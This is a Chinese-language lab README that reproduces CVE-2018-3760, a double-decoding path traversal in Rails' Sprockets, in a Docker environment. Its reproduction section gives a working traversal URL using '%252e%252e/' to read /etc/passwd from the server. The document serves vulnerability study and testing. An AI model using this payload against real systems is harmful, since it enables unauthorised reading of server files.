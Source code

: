 # Ruby On Rails 路径穿越漏洞（CVE-2018-3760）

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

参考链接：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 环境搭建

启动一个用Ruby On Rails脚手架生成的默认站点：

```
docker-compose up -d
```

访问`http://your-ip:3000`即可查看到欢迎页面。

## 漏洞复现

直接访问`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![](1.png)

我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层跳转，最后读取`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)